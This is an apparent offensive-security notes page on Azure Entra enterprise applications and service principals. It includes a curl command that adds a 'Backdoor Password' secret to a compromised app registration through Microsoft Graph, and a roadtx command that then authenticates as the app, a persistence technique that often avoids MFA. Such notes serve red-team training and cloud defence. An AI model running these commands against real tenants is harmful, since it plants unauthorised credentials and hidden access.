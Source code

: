 ```yaml
---
title: Enterprise Applications
---
```


Every application registered in Entra has two representations:

- Application Definition: present only in the home tenant of the app, visible under *App Registrations* in Azure portal
- Service Principal: present in every tenant where the app is used, visible under *Enterprise Applications* in Azure portal

> "An application has one application object in its home directory that is referenced by one or more service principals in each of the directories where it operates (including the application's home directory)" ([source](https://learn.microsoft.com/en-us/azure/active-directory/develop/how-applications-are-added#how-are-application-objects-and-service-principals-related-to-each-other))

The Service Principal is the identity an application operates under.

![API permissions between to applications ([source](https://csandker.io/2022/10/19/Untangling-Azure-Permissions.html))](./app-api-permissions.png)

After you compromised an app registration you can get the roles assigned to its service principal with [AppRegRoleFinder.ps1](https://gist.github.com/kfosaaen/e9a77a15ea7f26c05fd0f1a8ad85b0fd) ([source](https://twitter.com/kfosaaen/status/1633964967748665344)).

An App Registration supports multiple client secrets (application passwords).
A user that is owner or has the *Application Administrator* role over an app can add an application password ([source](http://web.archive.org/web/20231028213625/https://scribe.rip/@specterops/attacking-azure-azure-ad-part-ii-5f336f36697d)).
Application passwords can be used to authenticate as the service principal, MFA is usually not required.

~~~ bash
curl -sSf "https://graph.microsoft.com/v1.0/applications(appId='f072c4a6-b440-40de-983f-a7f3bd317d8f')/addPassword" -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -d '{"passwordCredential":{"displayName":"Backdoor Password"}}' | jq -r .secretText
~~~

Authenticate as the app.

~~~ bash
roadtx auth -c f072c4a6-b440-40de-983f-a7f3bd317d8f -p "$secret_text" -t defcorphq.onmicrosoft.com -r 'https://management.azure.com' --as-app
~~~

References:

- [Untangling Azure Active Directory principals & access permissions](http://web.archive.org/web/20221026210553/https://csandker.io/2022/10/19/Untangling-Azure-Permissions.html) and [Untangling Azure Active Directory Permissions II: Privileged Access](https://web.archive.org/web/20230308114005/https://csandker.io/2022/11/10/Untangling-Azure-II-Privileged-Access.html)
